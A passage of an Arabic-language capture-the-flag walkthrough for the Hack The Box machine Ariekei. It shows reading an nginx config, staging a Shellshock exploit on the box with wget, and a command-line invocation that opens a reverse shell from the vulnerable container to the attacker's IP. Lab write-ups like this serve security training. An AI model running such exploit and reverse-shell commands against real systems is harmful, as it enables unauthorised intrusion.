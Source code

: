 > /common/containers/waf-live

و يلا 

```text
cat nginx.conf
```

![cat nginx.conf](../.gitbook/assets/image%20%2830%29.png)

بالاصل بعرف ان في عندي subdomain باسم beehive.ariekei.htb ف واضح ان التحت هو ال IP الخاص فيه و الي بعرفه كمان ان هاد ال subdomain مصاب ب shellshock و الي ماقدرت استغلها بسبب ال WAF , فرح استغلها بنفس الاستغلال بس و انا جوا !

1-شغل ع جهازك ال SimpleHTTPServer   
2- روح لل tmp/ و حمل الاستغلال على البوكس من جهازك ب wget   
3- نشغل الاستغلال

```text
python 34900.py payload=reverse rhost=172.24.0.2 lhost=172.24.0.253 lport=1234 pages=/cgi-bin/stats  
```

{% hint style="info" %}
حطيت ال lhost=172.24.0.253 لان هاد ال IP الخاص فيني على ال eth1 interface فمعنى اخر هاد ال IP الي على نفس شبكة ال docker container الي عليها ال server المصاب !
{% endhint %}

![](../.gitbook/assets/image%20%2842%29.png)
